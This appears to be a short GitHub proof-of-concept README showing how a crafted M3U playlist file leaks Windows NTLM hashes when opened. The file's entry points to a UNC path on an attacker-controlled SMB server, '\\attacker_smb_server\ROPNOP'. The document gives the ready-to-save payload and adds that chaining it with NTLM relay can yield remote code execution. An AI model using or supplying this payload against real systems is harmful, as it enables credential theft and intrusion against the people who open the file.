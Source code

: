 # NTLM-THEFT VIA M3U FILE 

Rather than exploiting the vulnerability in Microsoft Word files or Outlook’s handling of RTF files, an attackers will take the 

advantage of "M3U file extension Audio Playlist" a  file that stands for MP3 URL, the m3u file , isn't an actual audio file in and 

of itself. 

An M3U file just points to audio (and sometimes video) files so that a media player can queue them for playback. These text-based 

files can contain URLs and/or absolute or relative pathnames to the media files and/or folders.

The attacker can then use this to inject malicious content into a “M3U” file  ex : SMB Server , so when that file  is opened, the 

target automatically leaks credentials in the form of NTLM hashes.

# NOTE:  RCE can be achieved by chaining NTLM theft with smb signing disabled using ntlm relay .




Tested on windows 7  “all player"


PoC :

#EXTM3U
#EXTINF:-1,leak_it_please

\\attacker_smb_server\ROPNOP

Save it as m3u extention.

![](https://github.com/kofa2002/NTLM-THEFT/blob/master/Screenshot%20from%202019-05-04%2008-11-15.png)


Author : Soufian El Hachmi
